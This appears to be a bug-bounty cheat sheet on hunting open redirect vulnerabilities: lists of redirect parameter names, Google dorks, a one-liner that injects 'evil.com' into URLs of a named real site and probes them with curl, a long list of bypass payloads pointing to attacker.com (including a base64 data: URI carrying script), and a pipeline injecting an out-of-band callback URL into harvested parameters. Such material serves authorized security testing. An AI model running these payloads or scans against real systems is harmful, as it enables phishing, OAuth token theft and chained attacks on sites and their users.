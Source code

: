 try to chain this vulnerability with other bugs such as [[XSS]] in url, [[SSRF]], [[OAuth]].

### hunt for it
##### Look for Redirect Parameters and endpoints
login, logout pages
```bash
return, return_url, rUrl, cancelUrl, url, redirect, follow, goto, returnTo, returnUrl, r_url, history, goback, redirectTo, redirectUrl, redirUrl

"next", "url", "target", "rurl", "dest", "destination", "redir", "redirect_uri", "redirect_url", "redirect", "out", "view", "to", "image_url", "go", "return", "returnTo", "return_to", "checkout_url", "continue", "return_path"
```
##### Use Google Dorks to Find Additional Redirect Parameters
1. `inurl:<one_of_above_Parameters> site:target`
2. `inurl:%3Dhttp site:example.com` :=> `https://one.com/login?u=http://hex.com/settings`
3. `inurl:%3D%2F site:example.com` :=> `https://example.com/login?n=/dashboard`
4. waybackurls
```bash
waybackurls tesorion.nl | grep -a -i \=http | qsreplace 'evil.com' | while read host do;do curl -s -L $host -I| grep "evil.com" && echo "$host \033[0;31mVulnerable\n" ;done
```
###### Test for Referer-Based Open Redirects
> simply change your referer header in the request then see if u get redirected to that referer
### payloads && Bypassing Protection
> remember to encode & ? # / \ , sometimes u may need to double encode it
> `scheme://userinfo@hostname:port/path?query#fragment`
```bash
\/attacker.com 
\/\/attacker.com 
\\attacker.com 
//attacker.com 
https:attacker.com 
https;attacker.com 
https:\/\/attacker.com 
https:/\/\attacker.com
https://attacker.com\@example.com
https://example.com.attacker.com/example.com
http://attacker.com/example.com
https://example.com@attacker.com/example.com
//theirsite@attacker.com 
/\/attacker.com 
data:MEDIA_TYPE[;base64],DATA
data:text/html;base64,PHNjcmlwdD5sb2NhdGlvbj0iaHR0cHM6Ly9leGFtcGxlLmNvbSI8L3NjcmlwdD4=
https://yoursite.com%3F.theirsite.com/ 
https://yoursite.com%2F@theirsite.com/ 
https://yoursite.com%2523.theirsite.com/ 
https://yoursite?c=.theirsite.com/ (use # \ also) 
//%2F/yoursite.com 
////yoursite.com 
https://theirsite.computer/ 
https://theirsite.com.mysite.com 
/%0D/yoursite.com (Also try %09, %00, %0a, %07) 
/%2F/yoururl.com 
/%5Cyoururl.com 
//google%E3%80%82com
```
### one lines
```bash

Step 1: Subdomain Enumeration 
	•DNS Dumpster •Sublist3r •Amass •Google Dorking •Certificate Transparency Logs •subdomainer
Step 2: Find Live Domains 
	cat all-domains.txt | httpx > all-live.txt
Setp 2b: wayback machine: 
	cat all-live.txt | python3 waymore.py
Step 3: Identify All URLs
	cat all-live.txt | gauplus -o allUrls.txt
Step 4: Injection BurpCollaborator/Interactsh-Client URL in Parameters 
	cat /home/casperino/tools/nuclei/httpx.txt | grep "=" | ./qsreplace http://40ga7gynfy6pcg06ov.oastify.com > redirect.txt
Step 5: Test for open redirect Vulnerabilities 
	cat redirect.txt | httpx -fr
Step 6: How to check which URL is vulnerable 
	split -l 10 redirect.txt output_file_
```
u can try `queryswap` instead of `qsreplace`